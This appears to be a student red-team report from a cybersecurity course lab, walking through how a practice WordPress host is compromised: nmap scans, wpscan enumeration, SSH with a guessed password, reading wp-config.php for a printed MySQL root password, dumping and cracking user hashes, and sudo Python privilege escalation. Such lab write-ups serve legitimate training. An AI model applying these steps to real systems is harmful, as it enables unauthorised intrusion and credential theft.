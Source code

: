 # Red Team: Summary of Operations

## Table of Contents
- Exposed Services
- Critical Vulnerabilities
- Exploitation

### Exposed Services

nmap ping sweep
`nmap -sP 192.168.1.1-255`
![red.01.pingsweep](https://github.com/BQcybersec/-UofM-VIRT-CYBER-12-2021/blob/main/Project%203/Images/red.01.pingsweep.png)

Nmap scan results for each machine reveal the below services and OS details:
Nmap Service Scans of the network

hypervisor
`nmap -sV 192.168.1.1`

![red.o2.hypemachine](https://github.com/BQcybersec/-UofM-VIRT-CYBER-12-2021/blob/main/Project%203/Images/red.02.nmap.hyperviser.png)

ELK
`nmap -sV 192.168.1.100`

![elk](https://github.com/BQcybersec/-UofM-VIRT-CYBER-12-2021/blob/main/Project%203/Images/red.03.nmap.elk.png)

Capstone
`nmap -sV 192.168.1.105`

![capstone](https://github.com/BQcybersec/-UofM-VIRT-CYBER-12-2021/blob/main/Project%203/Images/red.04.nmap.capstone.png)


Target 1
`nmap -sV 192.168.1.110`

![Target1](https://github.com/BQcybersec/-UofM-VIRT-CYBER-12-2021/blob/main/Project%203/Images/red.05.nmap.target1.png)

This scan identifies the services below as potential points of entry:
- Target 1
  Ports 80 and 22 are open 
  


The following vulnerabilities were identified on each target:

- Target 1
  - List of
  - Critical
  - Vulnerabilities

Vulnerable and outdated software:
    Old Versions of Apache, Wordpress, MySQL

Security Misconfiguration:
    Weak password on an exposed server

Broken Access Control:
    Wordpress read/write permissions 
    Non-Root Python Access for privilege escalation



### Exploitation


The Red Team was able to penetrate `Target 1` and retrieve the following confidential data:
- Target 1
  
- `flag1.txt` `flag2.txt`

![Flags1 and 2](https://github.com/BQcybersec/-UofM-VIRT-CYBER-12-2021/blob/main/Project%203/Images/red.06.flags1-2.png)
    
    - **Exploit Used**

   
      - Nmap Ping Sweep of the entire network
          `Nmap -sP 192.168.1.1-255`

      - Nmap Service Scan of Target 1
          `Nmap -sV 192.168.1.110`

      - Wordpress Enumeration with wpscan
          `wpscan --url http://192.168.1.110/wordpress -eu`

      -I Was able to guess a password of one of the users and ssh
            `ssh michael@192.168.1.110`

- `flag3.txt`

![flag3](https://github.com/BQcybersec/-UofM-VIRT-CYBER-12-2021/blob/main/Project%203/Images/red.13.flag3.png)

- **Exploit Used**
    - Wordpress was not properly configured and the file wp-config.php could be viewed by any user. This allowed me to dump the data containing Root Login info for the MySQL database which contained hashed passwords for the users of the system.
        
        `cat wp-config.php`

![WordPress Cat](https://github.com/BQcybersec/-UofM-VIRT-CYBER-12-2021/blob/main/Project%203/Images/red.07.wordpresscat.png)

        `root:R@v3nSecurity`
        `mysql -u root -p`
![MySQL Login](https://github.com/BQcybersec/-UofM-VIRT-CYBER-12-2021/blob/main/Project%203/Images/red.08.MySQL-Login.png)
       
        `select * from wp_users`

![mySQL hash extraction](https://github.com/BQcybersec/-UofM-VIRT-CYBER-12-2021/blob/main/Project%203/Images/red.09.mysqlhashextraction.png)

    - Using John the Ripper to crack the hashes
![John the Ripper](https://github.com/BQcybersec/-UofM-VIRT-CYBER-12-2021/blob/main/Project%203/Images/red.10.johntheripper.png)

- `flag4.txt`

![flag4](https://github.com/BQcybersec/-UofM-VIRT-CYBER-12-2021/blob/main/Project%203/Images/red.14.flag4.png)

  -SSH into the system as steven. and check the sudo privileges. he can run python scripts so I ran a python script that escalates the user to the root level

![Python Script](https://github.com/BQcybersec/-UofM-VIRT-CYBER-12-2021/blob/main/Project%203/Images/red.11.pythonscript.png)